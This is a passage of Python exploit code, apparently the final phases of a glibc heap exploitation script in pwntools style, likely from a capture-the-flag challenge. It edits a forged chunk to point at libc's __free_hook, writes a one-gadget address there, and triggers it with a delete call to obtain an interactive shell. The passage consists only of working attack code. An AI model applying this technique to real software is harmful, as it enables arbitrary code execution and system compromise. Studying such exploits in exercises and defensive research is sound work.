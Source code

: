 ```python

edit(3, "\0"*(ptr_2 - forged) + p64(libc_addr + libc.symbols["__free_hook"]), b="0")

### PHASE 7- WRITE THE ONE CALL GADGET ADDRESS IN FREE_HOOK ###

magic = libc_addr + 0x0000000004526a
edit(2, p64(magic), b="0")

### PHASE 8 - PWN ###

delete(7) #WIN

p.interactive()

```





